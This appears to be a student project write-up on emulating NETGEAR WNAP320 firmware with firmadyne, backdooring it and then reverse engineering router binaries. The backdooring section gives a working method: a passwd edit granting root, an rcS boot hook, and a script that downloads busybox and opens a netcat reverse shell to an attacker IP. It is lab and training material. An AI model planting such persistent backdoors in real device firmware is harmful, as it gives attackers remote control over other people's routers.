










# Backdooring of the firmware WNAP320 from firmadyne

After multiple attempts on our own routers, we decided to start with firmware emulation, avoiding having to buy a new equipment in case of software failure.

We have chosen the `firmadyne` project [https://github.com/firmadyne/firmadyne](https://github.com/firmadyne/firmadyne) which is an open source project to perform emulation and dynamic analysis of Linux-based embedded firmware.

Here are some interesting features that the project offers:

- Modified kernels (MIPS: v2.6, ARM: v4.1, v3.10) for firmware execution instrumentation

- A user-space NVRAM library to emulate a hardware NVRAM device

- An extractor to extract a file system and kernel from downloaded firmware

- A small console application to generate an additional shell for debugging

- And a scraper to download firmware from over 42 different vendors.

We decided to create a repository that allows to automate the installation of an Ubuntu 18.04 virtual machine with the `firmadyne` project already preconfigured.

```bash
#!/bin/bash

BDD_PASSWORD="firmadyne"

sudo apt-get install busybox-static fakeroot git dmsetup kpartx netcat-openbsd nmap python3-psycopg2 snmp uml-utilities util-linux vlan python3-pip python3-magic -y

sudo update-alternatives --install /usr/bin/python python /usr/bin/python3 10

sudo apt install qemu-system-arm qemu-system-mips qemu-system-x86 qemu-utils -y

git clone --recursive https://github.com/firmadyne/firmadyne.git $HOME/firmadyne

git clone https://github.com/ReFirmLabs/binwalk.git $HOME/binwalk

yes | sudo bash $HOME/binwalk/deps.sh
yes | sudo python3 $HOME/binwalk/setup.py install

sudo -u postgres bash -c "psql -c \"CREATE USER firmadyne WITH PASSWORD $BDD_PASSWORD;\""

cd $HOME/firmadyne

sudo -u postgres createdb -O firmadyne firmware
sudo -u postgres psql -d firmware <$HOME/firmadyne/database/schema
sed -i '/FIRMWARE_DIR=/s/^#//g' $HOME/firmadyne/firmadyne.config
sed -i 's/FIRMWARE_DIR=\/home\/vagrant\/firmadyne/FIRMWARE_DIR=$HOME\/firmadyne/' $HOME/firmadyne/firmadyne.config
yes | $HOME/firmadyne/download.sh
```

## Unpacking of the WNAP320 firmware

To start, we will get the WNAP320 firmware from the site [www.downloads.netgear.com](http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip).

Once this is done, we will unpack it in a temporary folder and then perform an `unsquashfs` to extract the firmware file system.

```bash
wget http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip
unzip WNAP320\ Firmware\ Version\ 2.0.3.zip
tar -xvf WNAP320_V2.0.3_firmware.tar
binwalk rootfs.squashfs
```


In our case we are lucky, the squashfs does not contain lzma compression, which will greatly facilitate extraction and backdooring.

To extract the file system, we will use the `unsquashfs` command which is available in the `util-linux` package.

```bash
# Installing the unsquashfs utility
sudo apt install util-linux -y
sudo unsquashfs rootfs.squashfs
```


Once the file system is extracted, we will place our proof of concept in an HTML file with for example a javascript alert in order to prove that we can modify the firmware and run it without error.

For the example I decided to add an alert in the file `login_button.html` placed in the folder `/home/www/`


We just have to repack the file system with the command `mksquashfs`.

```bash
mksquashfs squashfs-root/ rootfs.squashfs 
chmod 700 rootfs.squashfs
```


Perfect, now we'll put all this in an archive to continue the emulation with firmadyne.

```bash
tar -cvf WNAP320_V2.0.3_firmware.tar squashfs-root/
zip 'WNAP320 Firmware Version 2.0.3.zip' WNAP320_V2.0.3_firmware.tar
```

## Backdooring + Repacking

In the previous step we saw how to extract the file system and add our own backdoor in an html file to test our proof of concept.

Now we will use the `firmadyne` project to emulate our modified firmware.

```bash
cd $HOME/firmadyne

# Adds the firmware table to the postgresql database
sudo ./sources/extractor/extractor.py -b Netgear -sql 127.0.0.1 -np -nk "WNAP320 Firmware Version 2.0.3.zip" images
./scripts/getArch.sh ./images/introduction-to-reverse-engineering-part-2/1.tar.gz

# Firmware extraction
./scripts/tar2db.py -i 1 -f ./images/introduction-to-reverse-engineering-part-2/1.tar.gz

# Conversion to qemu image for emulation
sudo ./scripts/makeImage.sh 1

# Create a new network interface to map the router's web interface
./scripts/inferNetwork.sh 1

# Launching the firmware
./scratch/1/run.sh
```


Launching the firmware emulation 


We have of course access to the shell (normally accessible via the UART port) with the following credentials:

```bash
admin:password
```


Now we just have to check that our proof of concept works on our HTML page.


This is indeed the case! Our backdoor has been injected into the firmware and we can now confirm that the compromise of the firmware is feasible.


In many embedded devices, the busybox software can be found, which has become a standard today.
Busybox is a software (toolbox) implementing several standard Unix commands by removing all information not necessary for operation.

The goal is to obtain a minimalist binary to execute the most common commands on an embedded system.

Now that we have demonstrated that the firmware modification works without errors, we can move on to the next step by setting up a reverse shell using the `netcat` utility.

However this utility is not present in the busybox software installed by default on this device.

By replacing the old busybox with a more complete version, we can get netcat containing more utilities on the router.

To start with, we will change the default shell present on the `admin` user: 


```
OLD =>
admin:x:1000:1000:Default non-root user:/home/cli/menu:/usr/sbin/cli

NEW =>
admin:x:0:0:root:/home:/bin/sh
```

Next, we will add our `bash` file which will contain our reverse shell on the `rcS` file (file which contains the commands to be executed at the router startup):


```bash
# Start the backdoor script
/bin/backdoor.sh &
```

The only thing missing is the `backdoor.sh` file which contains our reverse shell that we will place in the `/bin` folder:


```bash
#!/bin/sh

# Test if the router have internet connection
while ! ping -c 1 google.com &>/dev/null; do
    echo "Waiting for internet connection..."
    sleep 1
done

# Once we have internet connection, we can download busybox and execute it
cd /home/cli/menu
wget -q https://busybox.net/downloads/binaries/1.21.1/busybox-mips
chmod +x /home/cli/menu/busybox-mips

# Execute netcat with the attacker IP (Local ip for testing purposes)
while true; do
    /home/cli/menu/busybox-mips nc 192.168.0.99 1337 -e /bin/sh
    sleep 120
done
```

Since we are emulating with firmadyne the connection to the outside world is impossible, to make life easier I will place the new busybox binary in the `/home/cli/menu` directory of the router.

Once this is done, we just have to repack our rootfs.squashfs with the modifications we made.

```bash
rm -rf rootfs.squashfs *.tar *.zip
sudo mksquashfs squashfs-root/ rootfs.squashfs
sudo chmod 700 rootfs.squashfs
tar -cvf WNAP320_V2.0.3_firmware.tar squashfs-root/
zip 'WNAP320 Firmware Version 2.0.3.zip' WNAP320_V2.0.3_firmware.tar
```


As you can see, our reverse shell is well executed at router startup and we have remote control over the router.

## Reverse engineering

The reverse engineering phase was by far the most complex phase of the project.
Since it required learning reverse engineering tools and having a solid understanding of the system, the types of file formats, but also the complex operating mode and methodologies to acquire and specific to the vulnerability researcher.

Initially we expected to perform an interpreted language code review as it was the case on some older DLINK routers embedding PHP.

However, we quickly noticed the absence of interpreted language and the management of the vulnerability. 

The devices we tested were the following: 

- TPLINK WR841N * 3
- TPLINK WR940N
- DLINK DIR-809
- SANCE IP Camera


### Pentest

First, we performed a penetration test on the administration web interface, using the Burpsuite tool we were able to capture HTTP requests.

We tested several features, but we quickly realized that security mechanisms are present on the router.
First of all, the data sent by the connection form is encrypted with a symmetric AES encryption algorithm.
In addition to the encryption, a unique signature is also added in the body of the request to ensure its authenticity.

We therefore continued our research directly on the device in order to gather as much information as possible, because in black box mode it was not possible to freely manipulate the requests from BurpSuite.

### CPU architecture

The devices we audited had a SoC (system on a chip) containing a processor with a reduced instruction architecture (RISC) in order to guarantee low power consumption and low production costs.

We dealt with processors of the MIPS family under 32 bit (little and Big Endian) as well as ARM.

#### MIPS

All three router models contained a MIPS architecture processor. 
This architecture is commonly found in the industry, and is notably present in many electronic equipments such as DVD players, video game consoles from the 90's/2000's and network equipments.

MIPS has the advantage of low power consumption and a fixed size instruction set (32 bit), which means that each instruction has a fixed size of 32 bits.

#### ARM

Like MIPS, the ARM architecture is also part of the RISC family, however it has a different instruction set than MIPS and has the great advantage of very low power consumption and production cost.

ARM is very popular today thanks to its excellent performance/consumption ratio in a large ecosystem.

ARM processors can be found in most embedded devices, smartphones and recently in laptops (eg: Macbook m1).

### Static binary analysis

The operating system being Linux we had to analyze binaries in ELF (Executable and Linkable Format).

It is mainly composed of three parts :

- Executable header ( indicating the type of binary, the number of sections, the number of segments, etc. )

- Program header (indicating the entry point, the number of sections, the OS/ABI)

- Section ( indicating the different sections of the binary )

- Section Header ()



Which contains information indicating the different sections of which the main :

- .text (code)
- .data (data)
- .bss (memory buffer)
- .rodata (static data)
  
With the readelf utility we can get detailed information about this file format.
In particular, we noticed that the "httpd" binary was "stripped", this operation is usually performed by developers to reduce its size and make reverse engineering more complex by removing any symbols (variable functions name).



As a rule, availability takes precedence over security for embedded devices, security practices are often forgotten or intentionally omitted for performance optimization reasons.

With the checksec utility of pwn lib, it was found that security measures were completely missing.



```
# readelf -a httpd 

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x00400034 0x00400034 0x00100 0x00100 R E 0x4
  INTERP         0x000134 0x00400134 0x00400134 0x00014 0x00014 R   0x1
      [Requesting program interpreter: /lib/ld-uClibc.so.0]
  REGINFO        0x000148 0x00400148 0x00400148 0x00018 0x00018 R   0x4
  LOAD           0x000000 0x00400000 0x00400000 0x1a4d8 0x1a4d8 R E 0x10000
  LOAD           0x01a4d8 0x0042a4d8 0x0042a4d8 0x00b08 0x16414 RW  0x10000
  DYNAMIC        0x000160 0x00400160 0x00400160 0x00100 0x00100 RWE 0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
  NULL           0x000000 0x00000000 0x00000000 0x00000 0x00000     0x4
```

We can notice the permissions (Read/Write/Execute) on the GNU_STACK property, which means that once loaded the system will assign these permissions to these memory pages.

This exposes the device to the risk of command execution directly from the instruction stack in case of a Buffer Overflow attack without the need for advanced techniques.

### Ghidra

To reverse engineer the httpd binary, we used the Ghidra software reverse engineering framework.
Ghidra is a disassembler, i.e. it will translate the opcodes into MIPS assembly instructions, but also a decompiler since it will translate these same instructions into a high level pseudo-language close to C.

Ghidra uses an intermediate language close to assembler from the assembler instructions.
The goal is to have instructions that are completely independent of the architecture type.

We were able to discover some of the tool's functionalities, notably the basics of scripting in Java and Python.

Once the binary is decompiled, it is represented in linear form or as a graph.




Since the level of complexity of a function is correlated with the presence of vulnerability, one strategy is cyclomatic complexity sorting.

This concept consists in assigning a coefficient to a certain function of a program.

The cyclomatic complexity is calculated as follows: 

- Let N = the number of nodes of the graph, E the number of edges and 
- P = the number of final outcomes of the function.
- The API is complex and requires working directly with the PCode to perform tracing.



In the example above, this function is composed of :

```
8 edges(E),1 outcome(P) and 7 nodes(N).
M = E-N+ 2*P
M = 8-7 + 2*1 = 3
```

Ghidra scripts are based on this principle, one of the native features allows to sort functions by complexity level by bsebasing on the number of calls.

This can be useful to determine the entry points of the program.




One of the most useful features in the back-end tools is the cross-reference.
These are as their name suggests references in the binary to functions or strings.
It allows to know by whom the function is called or the text is used.



We also used the IDA tool, however the license of the tool we had at our disposal was limited to the support of x86 and ARM architecture binaries, so it was not possible to decompile MIPS binary.

Static analysis is very complex and most of the time requires the development of scripts to automate this search phase.

Large projects can contain millions of lines of code (6.7 million for Google Chrome), so it is extremely complex to determine vulnerabilities via a static approach.
We will see below the dynamic analysis through a fuzzing approach.

### Dynamic analysis 

The subject being very vast we were able to make the knowledge of the various modes of execution as well as the tools used in the application research such as the fuzzing and the symbolic execution based on emulation.

#### Fuzzing

Fuzzing consists in testing the different possible values in order to find exceptions not handled by the program. These bugs are analyzed in order to determine the original cause of the crash to finally perform an exploit of the discovered vulnerability.

Vulnerability research and exploitation are two distinct disciplines that may require different expertise when the binaries are complex (e.g. JavaScript V8 engine).

Concerning fuzzing, one of the most used open-source tools is AFL++.

We practiced on this tool, which we hosted on our VPS server in order to collect a maximum of crashes without interruption.

We ran the tool on intentionally vulnerable x86 binaries including FUZZGOAT, a JSON parser in C.



Not surprisingly, we obtained several crashes on this binary by providing it with the values found by AFL++.

The second step was to be able to run AFL on httpd to detect crashes on the binary.
This was quite complex, because the emulation of this binary is required to target a specific function of this server.

In the meantime, we learned about compiling and executing mips binary from our x86 PCs and developed shellcode for reverse shell execution.



Since our binaries are compiled for MIPS, it is necessary to run AFL++ with an emulation (Unicorn-AFL++).

We have learned to trivially use the Unicorn api under python to understand the mfoction of this engine based on QEMU.

Unicorn Engine is a multi-architecture CPU emulator based on QEMU, it allows the execution of instructions from several architectures.

But unfortunately we did not manage to exploit the binary with a linear fuzzing approach under AFL++, for several reasons:

- Complexity of setting up the binary emulation (the httpd binary requires several dependencies and crashes systematically even after solving them)

- Complexity of the binary (several functionalities to test: path parser, cookie parser, HTTP body parser ...).

- Lack of experience and resources on the subject (linear fuzzing of HTTP service + under MIPS architecture)

We thought to fuzz directly the HTTP requests transmitted with boofuzz (multiproctol fuzzer) and to analyze the crashes with gdb-server directly on the router, but by preoccupation of time we prioritized to advance urgently on other points of the project such as the backdooring under emulation and the drafting that we had to write new following a technical problem (forget of LUKS decryption key)

In conclusion, this project was very rich technically and was an excellent initiation on hardware and IOT exploitation.

Thank you for reading this introduction to reverse engineering.
<br/>
<div style="width:100%;height:0;padding-bottom:100%;position:relative;"><iframe src="https://giphy.com/embed/kaBU6pgv0OsPHz2yxy" width="100%" height="100%" style="position:absolute" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div><p><a href="https://giphy.com/gifs/jake-gyllenhaal-bye-kaBU6pgv0OsPHz2yxy"></a></p>